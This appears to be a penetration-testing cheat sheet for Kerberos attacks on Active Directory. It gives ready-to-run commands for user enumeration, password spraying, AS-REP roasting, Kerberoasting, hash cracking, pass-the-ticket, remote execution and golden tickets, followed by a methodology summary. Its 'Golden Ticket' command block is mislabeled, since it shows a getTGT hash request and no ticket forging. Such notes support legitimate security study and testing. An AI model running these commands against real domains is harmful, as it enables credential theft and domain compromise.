 # Enumeration
## nmap Kerberos scripts
```bash
nmap -p 88 --script=krb5-enum-users,krb5-realm $IP
```

## Enumerate usernames with kerbrute
```bash
kerbrute userenum -d domain.local --dc $IP /usr/share/wordlists/seclists/Usernames/Names/names.txt
```
## Password spray with kerbrute
```bash
kerbrute passwordspray -d domain.local --dc $IP users.txt 'Password123!'
```

# AS-REP Roasting
## Check for ASREPRoastable users with impacket
```bash
impacket-GetNPUsers domain.local/ -dc-ip $IP -no-pass -usersfile users.txt
```

## Request ASREPRoast hashes for specific user
```bash
impacket-GetNPUsers domain.local/username -dc-ip $IP -no-pass
```

## ASREPRoast with netexec
```bash
netexec ldap $IP -u users.txt -p '' --asreproast asrep_hashes.txt
```

## Hashcat ASREPRoast
```bash
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

# Kerberoasting
## Request Kerberoast TGS tickets with impacket
```bash
impacket-GetUserSPNs domain.local/username:password -dc-ip $IP -request
```

## Kerberoast with netexec
```bash
netexec ldap $IP -u username -p password --kerberoasting kerberoast_hashes.txt
```

## Hashcat Kerberoast
```bash
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

# Golden Ticket
## Request TGT with NTLM hash
```bash
impacket-getTGT domain.local/username -hashes :ntlm_hash
```

## Use Kerberos ticket for authentication
```bash
export KRB5CCNAME=username.ccache
```

## Execute commands with Kerberos ticket
```bash
impacket-psexec domain.local/username@target.domain.local -k -no-pass
```

---

# Kerberos Enumeration Methodology

## Initial Reconnaissance

1. Identify Kerberos service on port 88
2. Enumerate domain users (via SMB, LDAP, or RPC)
3. Check for ASREPRoastable users (no preauth required)
4. Attempt password spraying with common passwords
5. If credentials obtained, perform Kerberoasting
6. Crack obtained hashes offline

## ASREPRoasting Attack
1. Enumerate users (kerbrute, netexec, or rpcclient)
2. Test users for accounts with "Do not require Kerberos preauthentication" enabled  (GetNPUsers)
3. Collect AS-REP hashes
4. Crack hashes

## Kerberoasting Attack
1. Obtain valid domain credentials (any user)
2. Query for accounts with SPNs (GetUserSPNs)
3. Request TGS tickets for those services
4. Crack tickets offline to recover service account passwords
## Username Enumeration

**kerbrute:** Fast, uses Kerberos pre-authentication to validate usernames without triggering account lockouts.

**netexec/rpcclient:** Enumerate via SMB/RPC null sessions if allowed.

**enum4linux-ng:** Comprehensive enumeration if null sessions work.

**Common username wordlists:**
- /usr/share/wordlists/seclists/Usernames/Names/names.txt
- /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

## Password Spraying

**Best practices:**
- Use one password against many users (not many passwords against one user)
- Common passwords: Password123!, Welcome123!, Summer2024!, CompanyName2024!
- Monitor for account lockouts
## Pass-the-Ticket Attacks

Once you have a valid TGT (Ticket Granting Ticket):
1. Export KRB5CCNAME environment variable
2. Use -k flag with impacket tools
3. Authenticate without knowing the password

## Overpass-the-Hash

If you have NTLM hash but not plaintext password:
1. Request TGT with hash using getTGT
2. Use resulting ticket for authentication
3. Effective privilege escalation technique

## Golden Ticket Attack

If krbtgt hash is obtained (requires Domain Admin):
1. Create forged TGT with ticketer
2. Grant yourself any privileges
3. Access any resource in the domain
4. Persistence mechanism (tickets valid until krbtgt password changed)

---

# References

- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
- https://github.com/GhostPack/Rubeus
- https://github.com/SecureAuthCorp/impacket
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
